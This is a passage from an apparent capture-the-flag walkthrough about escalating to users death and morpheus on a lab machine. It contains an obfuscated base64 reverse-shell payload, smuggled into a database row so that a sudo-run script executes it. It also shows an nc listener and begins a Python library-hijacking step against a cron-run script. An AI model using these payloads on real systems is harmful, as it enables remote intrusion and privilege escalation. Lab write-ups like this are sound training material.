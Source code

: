 In the last line we can see that our command executed. Now we have several paths which we could go down. Let's add a table entry that contains a shell, to avoid any problems with escaping quotes etc, b64 encode it and decode it. Then pipe it to bash:
```
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjcyLjEwNC85MDAyIDA+JjE=|base64 -d|bash
```

So our query looks like this:
```
INSERT INTO dreams VALUES ('attacker', ';echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjcyLjEwNC85MDAyIDA+JjE=|base64 -d|bash');
```

```
#listener:
sudo nc -lvnp 9002

#execute the script with sudo on the system again:
sudo -u death /usr/bin/python3 /home/death/getDreams.py

#results in a shell as death
```

Now we can grab flag #2 and head onto the last user: morpheus

# Morpheus

Checking the home folder of morpheus, we find a restore.py that we can read but not execute:

```
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")

```

Because of the name, I think this file get's executed regularly. To check this, we can use pspy. Download it and execute it. Let it run for a couple of minutes.


WE can see that indeed restore.py is getting executed. Checking /etc/passwd shows that UID 1002 is morpheus. This is most likely the path to morpheus.

The script itself doesn't do a whole lot. The only thing I can think of here is library hijacking. So let's looks for the shutil library:

```
find / -name shutil.py 2>/dev/null
/usr/lib/python3.8/shutil.py
dir -lah /usr/lib/python3.8/shutil.py
```
